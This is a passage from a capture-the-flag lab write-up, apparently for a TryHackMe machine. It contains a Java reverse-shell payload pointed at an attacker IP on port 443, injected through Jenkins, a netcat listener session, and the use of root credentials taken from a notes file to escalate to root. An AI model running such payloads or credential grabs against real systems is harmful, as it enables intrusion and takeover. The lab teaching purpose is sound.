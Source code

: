 ```bash
String host="10.14.99.119";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Set the listener at port **443**, copy the payload into the form and then execute it, we should get a reverse shell.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.14.99.119] from (UNKNOWN) [10.10.27.35] 47816
whoami
jenkins
```

### Shell as Jenkins

Once inside as Jenkins, i tried some ways to **PrivEsc** but none works, as before we found a file in `/opt`, i checked it and i found a file named `notes.txt`.

```bash
jenkins@jenkins:/$ cat /opt/note.txt 
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:t***b13gu*****23
```

Bingo, we found credentials for `root`.

I tried login in the current contained, but it didn't work, so i tried the credentials in the shell that we gained before and they did work.

```bash
aubreanna@internal:~$ su root                                                                                                                                                      
Password: *************
root@internal:/home/aubreanna# 
```

Now you can read the `root.txt` flag at `/root/root.txt`.

```bash
root@internal:/home/aubreanna# cat /root/root.txt 
THM{*****************}
```

## Final Thoughts
